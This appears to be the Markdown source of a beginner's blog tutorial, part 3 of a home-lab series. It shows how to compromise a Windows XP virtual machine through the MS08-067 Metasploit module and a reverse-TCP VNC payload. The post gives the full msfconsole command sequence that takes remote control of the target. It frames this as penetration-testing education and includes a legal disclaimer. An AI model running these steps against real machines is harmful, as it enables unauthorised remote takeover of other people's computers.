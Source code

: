 ```yaml
---
layout: post
title:  "First Hack Part 3 (Exploiting The Target)"
date:   2018-04-16 14:56:03 -0400
categories: jekyll update
---
```


<br>[Part 1 (Installing The Virtual Network)][part-1]
<br>[Part 2 (Searching for Targets and their Weaknesses) ][part-2]

Legal Disclosure: Don't do this on networks other than your own without written consent from the network administrator. Otherwise, you would be committing an illegal act.

<b>Roadmap</b>

Now comes the fun part. Using a tool called Metasploit in order to break into the Windows XP computer with a VNC. a VNC is simply a window that displays the target desktop. It allows you to control it the same way you are controlling your virtual machine. There are 4 simple steps to this.

Searching for the exploit command

Loading the exploit (Code to exploit the weakness)

Loading the payload (Software used to give you control)

Set the Settings and "pwn the box"

<b>Searching for the Exploit Command</b>

The first thing we need to do is use the code identified in part 2. MS08_067 is the exploit we will use. But how do we load it? We need to get the command from the rapid7 database. Go to...

[https://www.rapid7.com/db][rapid7]

Type "MS08_067" in the search field and make sure "Metasploit Module" is selected in the dropdown box.

Look at the code under "Module Name." We will use that once we load Metasploit

<b>Loading the Exploit and Payload</b>

[Offensive Security: Metasploit Commands][commands]

[Offensive Security: Exploits][exploits]

[Offensive Security: Payloads][payloads]

Open a terminal and load Metasploit's terminal interface with the following command

{% highlight ruby %}
msfconsole
{% endhighlight %}

Use the exploit we found in Rapid7 with the "use" command.

{% highlight ruby %}
use exploit/windows/smb/ms08_067_netapi
{% endhighlight %}

There are many useful payloads. I will recommend we use a reverse TCP payload in order to gain a VNC session. Load the payload with the "set" command.

{% highlight ruby %}
set PAYLOAD windows/vncinject/reverse_tcp
{% endhighlight %}

<b>Settings</b>

We want to see if we have the correct settings. Use the following command.

{% highlight ruby %}
show options
{% endhighlight %}

You should get something that looks like this

![image tooltip](/blog/images/ms08_067/msfconsole_show_options1.JPG)

You may have noticed a few lines are missing. Specifically LHOST and RHOST. LHOST is the local host (your PC) and RHOST is the remote host (target PC)

Let's fill those in with the set command

{% highlight ruby %}
set RHOST 192.168.1.244
#I am using the ip of my own target computer. Use the IP for your own
{% endhighlight %}

Before we fill in LHOST, we need to the the IP of your own Linux machine.

Press Ctrl+Shift+T in order to bring up a new terminal tab

{% highlight ruby %}
sifconfig
{% endhighlight %}

You should get something like this. I highlighted the IP in yellow. Your IP will be in the same spot but most likely different.

![image tooltip](/blog/images/ms08_067/ifconfig.JPG)

{% highlight ruby %}
set LHOST 192.168.1.48
#use the IP you just looked up in ifconfig
{% endhighlight %}

We filled in all the empty fields so we should be good right? Almost. By default, the VNC will only let you spy on the target machine. We want to enable control. Make one more setting.

{% highlight ruby %}
set ViewOnly false
{% endhighlight %}

Run the show options again and make sure you have these settings.

![image tooltip](/blog/images/ms08_067/msfconsole_show_options2.JPG)

<b>Hack It!</b>

Finally, run the command

{% highlight ruby %}
exploit
{% endhighlight %}

Congratulations, you did it!!

![image tooltip](/blog/images/ms08_067/owned.JPG)

[part-1]: MS08_067_Part_1.html
[part-2]: MS08_067_Part_2.html
[rapid7]: https://www.rapid7.com/db
[commands]: https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/
[exploits]: https://www.offensive-security.com/metasploit-unleashed/exploits/
[payloads]: https://www.offensive-security.com/metasploit-unleashed/payloads/
